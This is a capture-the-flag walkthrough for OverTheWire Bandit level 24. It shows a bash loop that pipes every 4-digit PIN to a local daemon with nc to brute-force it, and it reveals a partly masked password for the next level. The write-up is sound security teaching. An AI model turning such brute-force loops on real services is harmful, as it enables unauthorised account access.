

# Bandit Level 24 → Level 25

## Level Goal / Objective

A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute forcing.

🔗 https://overthewire.org/wargames/bandit/bandit24.html

## Commands You May Need

```text
nc , bash , for , while , echo
```

## Concept Focus

* Brute forcing
* Automating network interactions
* Using bash scripting for enumeration
* Client-server communication

## Approach

### 1. Connect to the Level

Log in via SSH using the credentials from the previous level.

---

### 2. Identify the Service

Connect to the local service:

```bash
nc localhost 30002
```

The service expects:
- The current password
- A 4-digit pincode

---

### 3. Automate the Attack

Manually trying all combinations is impractical, so create a script to brute force the pincode.

Example approach:

```bash
for pin in $(seq -w 0000 9999); do
  echo "<password> $pin" | nc localhost 30002
done
```

---

### 4. Refine the Script

Improve the script to stop when the correct response is found by filtering out failed attempts.

---

### 5. Retrieve the Password

Once the correct pincode is found, the service returns the next level’s password.

---

## Walkthrough (Screenshots)



---

## Password for Level 25

```text
iCi86ttT...YJP3q4
```

---

## Key Takeaways

* Brute force attacks can be effective against small keyspaces
* Automation is essential when dealing with repetitive tasks
* Understanding service input/output helps design efficient exploits
* Bash scripting is powerful for quick attack tooling
